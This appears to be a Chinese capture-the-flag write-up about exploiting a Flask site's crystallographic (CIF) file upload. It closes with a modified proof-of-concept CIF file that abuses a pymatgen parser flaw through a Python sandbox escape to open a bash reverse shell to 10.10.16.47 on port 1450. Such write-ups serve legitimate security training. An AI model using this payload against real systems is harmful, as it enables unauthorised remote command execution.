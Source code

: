 image-20241123145441075  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kw0u1pCiaQBGbocZIicAYsUEuXG4icjtZfk4TeL0OyEmJ7wFZZKjjdZRogA/640?wx_fmt=png&from=appmsg "")  
  
image-20241123145524206  
  
也不行，我们注册一个普通用户进去，发现一个文件上传点  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwIE90wS7bF9qnG73FE0yricSnVzvGqsezTw22bCAxarDpGL6kcZzX6Yw/640?wx_fmt=png&from=appmsg "")  
  
image-20241123150026249  
  
查看到是flask项目  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwAiaVC1BOZKWhh7nrBzAh0VAss38kSicLG9YgrZSNeGicNOb7tCxfoE26A/640?wx_fmt=png&from=appmsg "")  
  
image-20241123150350825  
  
上传任意文件，这个文件上传的方法不管用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwzfOGCJAiaGzxhHeCvhw56QZiae6aNic8RRibRswwuILBpq7vCogEBVfT2w/640?wx_fmt=png&from=appmsg "")  
  
image-20241123150532947  
  
来到刚进来的首页，看提示说能上传CIF晶体信息文件  
> 白小羽  
> 晶体学信息文件(Crystallographic Information File, CIF)是以“.cif”结尾的计算机文件，它包含了晶体的晶胞参数、原子坐标、文献资料等信息。各种晶体、材料计算处理软件，如Vesta，Diamond，GSAS，Mercury，Rasmal，Materials Studio等都以晶体信息文件作为输入或者输出结果。  
  
  
CIF详细（看不懂）：  
```
https://blog.csdn.net/Ai_yunyun/article/details/132496026

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kw9loeeibHMbqvZn1bqYbB28qrxGChydKWpg9heRPjibYV3zds3ckGuibgA/640?wx_fmt=png&from=appmsg "")  
  
image-20241123150621451  
  
找到一个RCE文件，这里使用的是英文，用中文的话搜不到什么东西  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwtXdHKMqcmN6SRub8eFKiakmFy4ZdcMtqXggHNw8ibdMZia0SY1IibYDqAw/640?wx_fmt=png&from=appmsg "")  
  
image-20241123151343627  
  
翻译软件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwXibanI6KgAlcmWRoABUlibBsWMdxBNvdHAD3x8K1g0ZibnxdiaicRSCOx5Q/640?wx_fmt=png&from=appmsg "")  
  
image-20241123151714108  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWHsZic2Aj95wdFlRQibHp45kwu5IO4At5gxLyLicVnbQe14KAOiazcSEuclvpiacU1IviaYec7dZA4O1hkg/640?wx_fmt=png&from=appmsg "")  
  
image-20241123152028995  
  
修改POC  
```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.16.47/1450 0>&1\'");0,0,0'

```